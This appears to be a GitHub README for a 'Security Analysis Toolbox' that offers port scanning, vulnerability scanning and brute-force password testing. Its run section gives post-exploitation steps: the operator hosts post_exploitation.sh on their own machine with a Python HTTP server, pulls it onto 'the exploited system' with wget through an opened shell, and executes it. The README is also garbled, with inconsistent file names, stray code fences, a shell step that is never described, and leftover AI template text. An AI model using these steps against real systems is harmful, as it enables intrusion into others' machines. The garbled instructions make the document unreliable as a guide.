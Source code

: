 # Security Analysis Toolbox

## Overview
This toolbox is designed to provide comprehensive tools for network and vulnerability analysis, as well as password security assessment. It aims to help security professionals and IT administrators to efficiently manage and assess security across their networks.

## Features

### Network Analysis
- **Network Discovery**: Discover all devices connected to the network.
- **Port Scanning**: Analyze open ports to identify potential vulnerabilities.
- **Device Detection**: Detect all devices connected to the network and their status.

### Vulnerability Analysis
- **Vulnerability Scanner**: Scan systems for known vulnerabilities to mitigate potential threats.
- **Advanced Scanning**: Conduct in-depth scans to uncover and assess deeper system vulnerabilities.

### Password Security Analysis
- **Brute Force Attack Resistance Test**: Test the strength of passwords against common brute-force methods.

## Installation
To set up the Security Analysis Toolbox, clone this repository and install the required dependencies:

# How to RUN the Project

RUN main.py on command line with a command as shown below:

To deploy this project run

```bash
  python main.py IP-Address --start-port 1 --end-port 40 
```
After the shell is opened follow these instructions

- Open a command terminal on your PC where the post_explotation.sh file is located and run 'pyhton -m http.server' to host the file
- Now on the shell run 'wget http://Your-IP-Address:8000/post_exploitation.sh', it will transfer the file in the exploited system
- Confirm that the file has been transferred using 'ls; command 
- Now run chmod +x post_exploitation
- Now run ./post_exploitation


``` and it will output the python vulnerabilities scripts. ```





Follow the on-screen menus to select the type of analysis you wish to perform.

## Contributing
Contributions to this project are welcome. Please fork the repository and submit a pull request.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact
For support or any questions, email us at info@cyberevangelists.com.


``` This README provides a concise yet comprehensive guide to your toolbox, outlining its features, installation instructions, usage guide, and ways to contribute. Adjust the content according to your actual setup and repository details. ```






